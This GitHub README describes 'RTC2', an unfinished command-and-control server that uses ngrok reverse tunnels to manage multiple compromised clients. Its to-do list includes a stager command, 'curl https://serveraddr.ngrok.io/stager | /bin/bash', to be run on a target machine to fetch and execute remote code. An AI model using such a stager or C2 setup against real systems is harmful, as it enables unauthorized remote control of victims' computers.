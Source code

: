 # RTC2
RTC2 stands for "Reverse Tunnel C2" because it is a command and control server that utilises [ngrok](https://ngrok.io) to do reverse port forwarding.
This also lets all communication happen via https for extra security. As well as this, all communication is encrypted with private/public key pairs.

# Features
• Handles multiple clients

• Interactive "command-line" interface with tab autocomplete

• Very modular and easy to reuse code

• Unique-Identifier-based command system (easy to find results of commands)

# Todo
• Utilise private/public key pairs

• Finish adding in automated ngrok reverse tunneling

• Write some simple payload templates

• Write a function to build said templates with correct server details

• Add a stager function to the server so it's possible to do "curl https://serveraddr.ngrok.io/stager | /bin/bash" on target machine (bash script should echo python program line-by-line or just completely bash)

# WIP
This is a huge work-in-progress, so expect lots of bugs and not so many feautures just yet.